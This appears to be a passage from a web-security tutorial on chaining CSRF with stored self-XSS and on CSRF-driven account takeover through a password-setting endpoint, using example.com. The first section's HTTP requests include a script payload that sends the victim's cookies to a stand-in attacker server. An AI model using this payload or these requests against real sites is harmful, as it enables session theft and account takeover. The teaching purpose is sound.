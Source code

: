 ## Create Stored Self-XSS by Using CSRF

For instance, imagine that example.com's financial subdomain, finance.example.com, allows users to assign nicknames to their linked bank accounts. The account nickname field is susceptible to self-XSS, lacking proper sanitization, validation, or escaping for user input. Yet, since only the user can edit and view this field, direct XSS triggering by an attacker seems impossible.

However, the endpoint responsible for altering account nicknames is vulnerable to CSRF. The application fails to validate the presence of the CSRF token, enabling the omission of the token parameter in the request, effectively bypassing CSRF protection. The following request would be unsuccessful due to an incorrect token:

```http
POST /change_account_nickname
Host: finance.example.com
Cookie: session_cookie=YOUR_SESSION_COOKIE;
(POST request body)
account=0
&nickname="<script>document.location='http://attacker_server_ip/
cookie_stealer.php?c='+document.cookie;</script>"
&csrf_token=WRONG_TOKEN
```
In contrast, this request, without any token at all, would succeed:

```http
POST /change_account_nickname
Host: finance.example.com
Cookie: session_cookie=YOUR_SESSION_COOKIE;
(POST request body)
account=0
&nickname="<script>document.location='http://attacker_server_ip/
cookie_stealer.php?c='+document.cookie;</script>"
```
This request modifies the user's account nickname, embedding the XSS payload within it. Consequently, when the user subsequently logs in and accesses their dashboard, the XSS payload triggers.

## Take Over User Accounts by Using CSRF

CSRF vulnerabilities can occasionally lead to account takeover scenarios, particularly in critical functionalities such as password creation, password changes, email address modifications, or password resets. These situations are not uncommon and can occur when CSRF vulnerabilities exist in essential operations.

For instance, consider example.com, which offers users the option to sign up using their email addresses and passwords or through their social media accounts. Users who opt for the latter approach are not required to create a password, as they can access their accounts through their linked social media profiles. However, those who registered via social media can set a new password using the following request:

```http
POST /set_password
Host: example.com
Cookie: session_cookie=YOUR_SESSION_COOKIE;
(POST request body)
password=XXXXX&csrf_token=871caef0757a4ac9691aceb9aad8b65b
```
Given that users signing up via social media do not need an old password to create a new one, a failed CSRF protection on this endpoint could grant attackers the ability to set passwords for any social media registered users who haven't already done so.
